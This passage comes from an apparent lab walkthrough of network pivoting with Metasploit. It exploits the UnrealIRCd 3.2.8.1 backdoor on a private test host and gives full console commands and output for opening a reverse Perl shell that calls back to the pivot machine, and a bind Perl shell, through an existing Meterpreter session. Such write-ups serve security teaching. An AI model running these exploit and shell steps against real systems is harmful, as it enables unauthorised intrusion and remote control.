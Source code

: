 It must fit two criteria :

1. It only uses tools that the target has (it doesn't have `telnet`, and I spent too many hours figuring that out)
2. It can set up the listener on/through our previous session

We can either set up a bind shell listener on the target and connect to it through our previous session,
or we can set up a reverse shell listener in our previous session and connect back to it from our target.

For the reverse shell, set `LHOST` to the IP address of the pivot on the same network as the target,
and `LPORT` (the listening port on our pivot session) to an unused port.
You can check which ports are in use by running `netstat -a` in your Meterpreter session.
You'll need to use an unprivileged port (higher than 1024) if you didn't get root privileges previously.
Finally, you'll need to set the `ReverseListenerComm` option to the session you want to pivot through
(your first Meterpreter session should be session 2)

```
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 8
payload => cmd/unix/reverse_perl
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 172.25.0.3
LHOST => 172.25.0.3
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LPORT 11337
LPORT => 11337
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set ReverseListenerComm 2
ReverseListenerComm => 2
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 172.25.0.3:11337 via the meterpreter on session 2
[*] 172.25.0.2:6667 - Connected to 172.25.0.2:6667...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
    :irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 172.25.0.2:6667 - Sending backdoor command...
[*] Command shell session 3 opened (172.25.0.3:11337 -> 172.25.0.2:59464 via session 2) at 2024-07-17 23:32:23 -0400

id
uid=1121(boba_fett) gid=100(users) groups=100(users)
```

Alternatively, using a bind shell is slightly simpler.
You'll need to set `LPORT` (the port on the target which the shell will listen on) to an unused port.
We can't just check with `netstat -a` since we don't have access yet,
but a good start would be to pick an unprivileged port that didn't show up in your nmap scan,
and one that's not [commonly used](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers#Well-known_ports).

```
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 1
payload => cmd/unix/bind_perl
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LPORT 21337
LPORT => 21337
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] 172.25.0.2:6667 - Connected to 172.25.0.2:6667...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
    :irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 172.25.0.2:6667 - Sending backdoor command...
[*] Started bind TCP handler against 172.25.0.2:21337
[*] Command shell session 5 opened (172.25.0.3:50822 -> 172.25.0.2:21337 via session 2) at 2024-07-17 23:48:41 -0400

```